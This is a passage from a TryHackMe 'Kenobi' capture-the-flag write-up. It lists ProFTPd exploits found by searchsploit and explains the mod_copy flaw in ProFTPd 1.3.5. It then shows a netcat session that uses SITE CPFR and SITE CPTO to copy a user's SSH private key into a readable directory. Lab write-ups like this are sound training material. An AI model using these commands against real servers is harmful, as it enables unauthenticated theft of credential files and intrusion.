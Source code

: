 ```
ProFTPd 1.3.0/1.3.0a - 'mod_ctrls' exec-shield Local Overflow                                                                                                | linux/local/3730.txt
ProFTPd 1.3.0a - 'mod_ctrls' 'support' Local Buffer Overflow (PoC)                                                                                           | linux/dos/2928.py
ProFTPd 1.3.2 rc3 < 1.3.3b (FreeBSD) - Telnet IAC Buffer Overflow (Metasploit)                                                                               | linux/remote/16878.rb
ProFTPd 1.3.2 rc3 < 1.3.3b (Linux) - Telnet IAC Buffer Overflow (Metasploit)                                                                                 | linux/remote/16851.rb
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution                                                                                           | linux/remote/15662.txt
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                    | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                          | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                                                    | linux/remote/36742.txt
ProFTPd 1.x - 'mod_tls' Remote Buffer Overflow                                                                                                               | linux/remote/4312.c
ProFTPd IAC 1.3.x - Remote Command Execution                                                                                                                 | linux/remote/15449.pl
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)                                                                                                     | linux/remote/16921.rb
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (1)                                                             | linux/remote/19086.c
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (2)                                                             | linux/remote/19087.c
WU-FTPD 2.4/2.5/2.6 / Trolltech ftpd 1.2 / ProFTPd 1.2 / BeroFTPD 1.3.4 FTP - glob Expansion                                                                 | linux/remote/20690.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`3`

3. You should have found an exploit from ProFtpd's mod_copy module.

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

```
kali@kali:~/CTFs/tryhackme/Kenobi$ nc 10.10.222.46 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.222.46]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
